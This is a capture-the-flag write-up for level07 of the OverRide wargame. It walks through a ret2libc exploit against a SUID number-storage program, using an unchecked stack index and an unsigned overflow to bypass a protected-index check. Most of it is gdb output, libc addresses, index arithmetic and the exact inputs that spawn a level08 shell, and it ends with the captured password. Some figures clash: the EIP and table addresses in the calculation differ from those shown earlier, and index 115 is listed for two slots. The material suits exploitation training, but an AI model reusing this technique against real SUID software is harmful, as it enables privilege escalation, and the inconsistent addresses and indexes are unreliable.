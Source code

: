 # Level 7

## Vulnerability

Ret2Libc Attack on Unprotected Data Array

## Context

We find a binary with owner ```level08``` and SUID.
```
level07@OverRide:~$ ls -l
-rwsr-s---+ 1 level08 users 11744 Sep 10  2016 level07
```

The program takes a number and index as input, which it stores or reads from a table.
```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 42
 Index: 1
 Completed store command successfully
Input command: read
 Index: 1
 Number at data[1] is 42
 Completed read command successfully
Input command: store
 Number: -42
 Index: 2
 Completed store command successfully
```

## Solution

### main() overview

See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level07/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

We can see the program erases arguments and environment variables, thus protecting against:
- passing malicious shellcode as arguments to the program
- storing malicious shellcode in environment variables

We do find a couple vulnerabilities: no check is performed on the index and an unsigned int table is stored on the stack. This means we can read and store in stack memory. 

We also know the following:
- the program creates a data table, where it stores numbers at indexes
- some indexes (index % 3 == 0) are protected

### Build exploit

Our plan is to do a ret2libc attack, by overwriting the index containing EIP with a call to ```system()``` + ```exit()``` + ```"/bin/sh"```. 

1) find the address of system, exit, bin/sh
2) calculate the 'index' of EIP
3) use maxint overflow to access protected indexes
4) run exploit by inputting malicious number + index to running program

**step 1**
```
level07@OverRide:~$ gdb -q level07

(gdb) b*main
Breakpoint 1 at 0x8048723
(gdb) run
[...]

(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>

(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>

(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:	 "/bin/sh"
```
Ok, here are our addresses:

- ```system()``` is at ```0xf7e6aed0```
- ```exit()``` is at ```0xf7e5eb70```
- ```"/bin/sh"``` is at ```0xf7f897ec```


**step 2** <br />
We need to find the index in the table where we reach EIP, and then store our payload there using ```store_number()```. 

The table's address is ```0xffffd4f4```.
```
(gdb) b*store_number+6
(gdb) r
[...]
Input command: store

(gdb) p $ebp+0x8
$1 = (void *) 0xffffd4d0  # int *data
(gdb) x/a 0xffffd4d0
0xffffd4d0:	0xffffd4f4  # data[0]
```

EIP's return address in the ```main()``` function is ```0xffffd6bc```.
```
(gdb) info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x8048723 in main; saved eip 0xf7e45513
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
```

**Step 3** <br />
Next, we need to calculate the 'index' of our EIP address. 
```
  0xffffd63c   -    0xffffd474    =    int(0x1c8)  =   456
[eip_address]     [table_address]                    [bytes]

456 / 4   =   114
          [index in table]

114 % 3 = 0
```
Ah... index 114 is protected: ```114 % 3 = 0```. We can't store a number at this index. 

On lines 152-158 of the disassembled binary, we see that the table is accessed as ```data[index * 4]```. 
Since the index is an unsigned int and multiplied by 4, we can overflow uintmax to give the index where we want to go. 
```
0x100000000 = 2^32
[size of uintmax]

(2^32 / 4) + 114 = 1073741938
                  [index 114, after overflow]

1073741938 % 3 = 1
```
Index ```1073741938``` is unprotected! 

Let's test it out by causing the program to segfault. 
```
(gdb) run

Input command: store
 Number: 1094795585   # decimal for 0x41414141 or 'AAAA'
 Index: 1073741938    # index 114
 Completed store command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

**Step 4** <br />
Let's structure our exploit:
```
[ address of EIP ] = [ address of system ] [ address of exit ] [ address of "/bin/sh" ]
   0xffffd6bc           0xf7e6aed0           0xf7e5eb70             0xf7f897ec          # address
                        4159090384           4159040368             4160264172          # in decimal, to be number input
                            |                     |                     |
                        1073741938           115                    115                 # index to use
                        data[114]            data[115]              data[116]   
```

Let's give it a go!

```
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4159040368
 Index: 115
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
